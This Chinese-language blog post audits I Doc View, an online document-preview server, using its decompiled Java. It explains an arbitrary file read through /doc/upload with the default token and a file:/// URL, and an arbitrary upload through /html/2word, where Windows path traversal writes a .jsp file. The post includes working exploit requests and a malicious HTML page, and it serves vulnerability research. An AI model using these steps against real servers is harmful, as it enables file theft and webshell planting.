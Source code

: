 title: I Doc View在线文档预览 代码审计
author: Bmth
tags: []
categories:
  - 代码审计
top_img: 'https://img-blog.csdnimg.cn/direct/a556db3b19924ac19777221ee79e9e04.jpeg'
cover: 'https://img-blog.csdnimg.cn/direct/a556db3b19924ac19777221ee79e9e04.jpeg'
date: 2023-12-15 15:50:00
---
![](https://img-blog.csdnimg.cn/direct/a556db3b19924ac19777221ee79e9e04.jpeg)

好久没有代码审计了，机缘巧合之下获取到了 I Doc View 的源码，那么就分析一下最近爆出来的漏洞吧

影响版本：
- I Doc View<13.10.1_20231115

这次分析的版本为： Version: 6.9.8_20160812

在线文档预览API接口：[https://www.idocv.com/docs.html](https://www.idocv.com/docs.html)

## 代码审计
### /doc/upload 任意文件读取
看到控制器：`classes/com/idocv/docview/controller/DocController.class`
![](https://img-blog.csdnimg.cn/direct/b5e88c750c35492d81d65cbd8ffa32ac.png)

可以看到这里需要存在参数token，如果查询结果为 null 则 throw 抛出异常
跟进到`classes/com/idocv/docview/dao/impl/AppDaoImpl.class`的 getByToken 方法
![](https://img-blog.csdnimg.cn/direct/859babbb83a640cc80735640f70c0fcb.png)

使用`QueryBuilder.start`查询token的值

其实这个值在默认安装的时候已经被设置了：[https://soft.idocv.com/idocv.zip](https://soft.idocv.com/idocv.zip)
![](https://img-blog.csdnimg.cn/direct/dd17e81ee1f04d4e9688c3be91db91e2.png)

应用token默认设置为 testtoken，接着往下看
![](https://img-blog.csdnimg.cn/direct/c246bcd74f2a4ce5aa98c370af218fad.png)

由于我们是GET传参，会执行到`this.docService.addUrl(req, app, uid, name, url, mode, label)`

跟进到`classes/com/idocv/docview/service/impl/DocServiceImpl.class`的 addUrl 方法
![](https://img-blog.csdnimg.cn/direct/5e05ebc85fc448df939deb484eab2a42.png)

这里`this.urlViewAllowDomains`需要设置为`*`
![](https://img-blog.csdnimg.cn/direct/c65cc6f4520641198ce3e1f672dfa700.png)

直接会执行到
```java
if (StringUtils.isNotBlank(url) && url.matches("file:/{2,3}(.*)")) {
    host = url.replaceFirst("file:/{2,3}(.*)", "$1");
    File srcFile = new File(host);
    if (!srcFile.isFile()) {
        logger.error("URL预览失败，未找到本地文件（" + host + "）");
        throw new DocServiceException("URL预览失败，未找到本地文件（" + host + "）");
    }
	
    if (StringUtils.isBlank(name)) {
        name = srcFile.getName();
    }
	
    data = FileUtils.readFileToByteArray(srcFile);
    ...
    if (ArrayUtils.isEmpty(data)) {
        throw new DocServiceException("未找到可用的网络或本地文档！");
    } else if ((long)data.length > this.uploadMaxSize) {
        logger.error(this.uploadMaxMsg);
        throw new DocServiceException(this.uploadMaxMsg);
    } else {
        vo = this.add(req, app, uid, name, data, mode, labelName);
```
即通过正则匹配获取到`file://`协议后的文件路径，然后使用`new File()`读取该文件储存为data，调用add方法
![](https://img-blog.csdnimg.cn/direct/5af5bc919d9a496c89c3355397493230.png)

跟进到addDoc方法
![](https://img-blog.csdnimg.cn/direct/d4814cf6698c40198b9242b497563ce2.png)

![](https://img-blog.csdnimg.cn/direct/c02486f24490402eb91d8630424e91db.png)

需要注意：
1. 通过传参 name 满足上传的后缀，否则直接 throw 抛出异常了
2. 如果没有传md5，那么`md5 = DigestUtils.md5Hex(data);`，注意这里 data 为文件内容，然后使用`convertPo2Vo(this.docDao.getByMd5(md5, false))`进行查询，如果存在该值，则直接 return 返回

最后会调用`FileUtils.writeByteArrayToFile(new File(this.rcUtil.getPath(rid)), data)`将读取到的文件内容写入到新的文件中

将文件路径保存到 srcUrl，并会 return result 返回结果
![](https://img-blog.csdnimg.cn/direct/92d2e5d0989b432d9ef1628609e8b248.png)

#### 漏洞利用
由于是windows环境下，我们尝试读取`c:/windows/win.ini`
```
/doc/upload?token=testtoken&url=file:///c:/windows/win.ini&name=1.txt&md5=1111
```
![](https://img-blog.csdnimg.cn/direct/60abeaf89726490db103689ff82b804b.png)

访问该文件
![](https://img-blog.csdnimg.cn/direct/562c196d57784a5b8cf2ef64bdf4ebeb.png)

### /html/2word 任意文件上传漏洞 
看到控制器：`classes/com/idocv/docview/controller/HtmlController.class`
![](https://img-blog.csdnimg.cn/direct/420c255dad0a4a07ad3831a9737b4401.png)

这里会判断 md5Url 文件目录下的 index.html 是否存在，如果不存在则调用`GrabWebPageUtil.downloadHtml(url, htmlDir)`进行下载

跟进到`classes/com/idocv/docview/util/GrabWebPageUtil.class`的 downloadHtml 方法
![](https://img-blog.csdnimg.cn/direct/df5424fc28914bf193f8283ce2402755.png)

这里的obj对象可控，跟进到`getWebPage(obj, outputDir, "index.html")`
![](https://img-blog.csdnimg.cn/direct/be3bae3ec9034066823516bfd79cb1c6.png)

这里filename为定值index.html，`new File(outputDir, filename)`创建File对象，`obj.openConnection()`对传入的URL建立连接，接着往下看
![](https://img-blog.csdnimg.cn/direct/2cd819b8bb034466917cfaf82cbe2aad.png)

获取到 URLConnection 响应的内容，并调用`GrabUtility.searchForNewFilesToGrab(htmlContent, obj)`处理，最后将结果写入到 outputFile 文件内

看到`classes/com/idocv/docview/util/GrabUtility.class`的 searchForNewFilesToGrab 方法
```java
public static String searchForNewFilesToGrab(String htmlContent, URL fromHTMLPageUrl) {
    Document responseHTMLDoc = null;
    String urlToGrab = null;
    if (!htmlContent.trim().equals("")) {
        responseHTMLDoc = Jsoup.parse(htmlContent);
        System.out.println("All Links - ");
        Elements links = responseHTMLDoc.select("link[href]");
        Iterator var5 = links.iterator();

        while(var5.hasNext()) {
            Element link = (Element)var5.next();
            urlToGrab = link.attr("href");
            addLinkToFrontier(urlToGrab, fromHTMLPageUrl);
            System.out.println("Actual URL - " + urlToGrab);
            String replacedURL = urlToGrab.substring(urlToGrab.lastIndexOf("/") + 1);
            htmlContent = htmlContent.replaceAll(urlToGrab, replacedURL);
            System.out.println("Replaced URL - " + replacedURL);
        }

        System.out.println("All external scripts - ");
        Elements links2 = responseHTMLDoc.select("script[src]");
        Iterator var11 = links2.iterator();

        while(var11.hasNext()) {
            Element link = (Element)var11.next();
            urlToGrab = link.attr("src");
            addLinkToFrontier(urlToGrab, fromHTMLPageUrl);
            System.out.println("Actual URL - " + urlToGrab);
            String replacedURL = urlToGrab.substring(urlToGrab.lastIndexOf("/") + 1);
            htmlContent = htmlContent.replaceAll(urlToGrab, replacedURL);
            System.out.println("Replaced URL - " + replacedURL);
        }

        System.out.println("All images - ");
        Elements links3 = responseHTMLDoc.select("img[src]");
        Iterator var14 = links3.iterator();

        while(var14.hasNext()) {
            Element link = (Element)var14.next();
            urlToGrab = link.attr("src");
            addLinkToFrontier(urlToGrab, fromHTMLPageUrl);
            System.out.println("Actual URL - " + urlToGrab);
            String replacedURL = urlToGrab.substring(urlToGrab.lastIndexOf("/") + 1);
            htmlContent = htmlContent.replaceAll(urlToGrab, replacedURL);
            System.out.println("Replaced URL - " + replacedURL);
        }
    }

    return htmlContent;
}
```
简单来说就是获取`link[href]`、`script[src]`、`img[src]`三个标签内对应的值，然后通过addLinkToFrontier方法添加到filesToGrab变量中

回头看到 downloadHtml 方法
![](https://img-blog.csdnimg.cn/direct/b2b13b4513c6445cae01c4613705c0ef.png)

发现会从 GrabUtility.filesToGrab 中获取值，并再次调用`getWebPage(obj, outputDir)`
![](https://img-blog.csdnimg.cn/direct/8a3695aebdd540caad8786c0af692374.png)

而这里我们的filename就是可控的，但是由于是通过`/`进行截取，所以只能在windows条件下，通过`..\..\..\..\`构造目录穿越

最后最巧的就是竟然没有匹配`jsp`后缀
```java
if (!filename.endsWith("html") && !filename.endsWith("htm") && !filename.endsWith("asp") && !filename.endsWith("aspx") && !filename.endsWith("php") && !filename.endsWith("php") && !filename.endsWith("net")) {
```
![](https://img-blog.csdnimg.cn/direct/0440ba8b0cc3466597bbcfdc107e30d5.png)

即成功写入outputFile对象，内容为`conn.getInputStream()`

#### 漏洞利用
test.html：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后通过 touch 命令构造
```bash
touch '..\..\..\docview\poc.jsp'
```
最后`/html/2word?url=http://ip:port/test.html`
![](https://img-blog.csdnimg.cn/direct/7b0d0c3b564a402ba575067b031af764.png)

参考：
[【漏洞复现】I Doc View任意文件上传漏洞](https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg)
[IDocView 前台RCE漏洞分析](https://xz.aliyun.com/t/13096)

## 总结
这个系统可以说是非常简单进行代码审计的一类，因为代码量相对很少，并且就使用了 Spring MVC 中的 Interceptor 和 controller，逻辑比较简单

这次漏洞也很巧合的是windows可以使用`..\`进行目录穿越，从而绕过限制
